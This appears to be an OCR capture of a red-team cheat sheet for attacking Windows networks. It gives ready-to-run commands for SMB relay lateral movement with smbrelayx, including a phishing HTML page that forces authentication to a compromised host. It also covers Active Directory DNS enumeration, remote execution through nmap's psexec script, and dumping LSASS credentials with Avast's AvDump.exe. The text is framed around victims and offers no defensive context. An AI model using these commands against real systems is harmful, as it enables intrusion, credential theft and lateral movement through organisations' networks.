 ```
## SMB Lateral Movement:

Check if SMB signing is disabled on the endpoint:

```
nmap -p 445 <Victim IP> -sS --script smb-security-mode
```

Force authentication by crafting a HTML or file of your choice:

```
<html>
    <h1>The Dietary Benefits of Eating Ben and Jerry's Phish Food</h1>
    <img src="file://<Compromised Host>/download.jpg">
</html>
```

Fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to the victim and will attempt to execute the command, ipconfig, on the end host:

```
smbrelayx.py -h <Victim IP> -c "ipconfig"
```

## Active Directory DNS Enumeration:

The tool ```adidnsdump``` enables enumeration and exporting of all DNS records in the zone for recon purposes of internal networks.

```bash
git clone https://github.com/dirkjanm/adidnsdump
cd adidnsdump
pip install .

adidnsdump -u domain_name\\username ldap://10.10.10.10 -r
cat records.csv
```

## PSexec with NMAP:

```
nmap --script smb-psexec.nse -script-args=smbuser=<username>, smbpass=<password>[,config=<config>] -p445 <hosts>
```

## AV LSASS Dump:

How to utilize Avast AV to dump LSASS (C:\Program Files\Avast Software\Avast)

```
AvDump.exe --pid 1111 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```


[VICTIM]: PS C:\Users\Victim\Documents>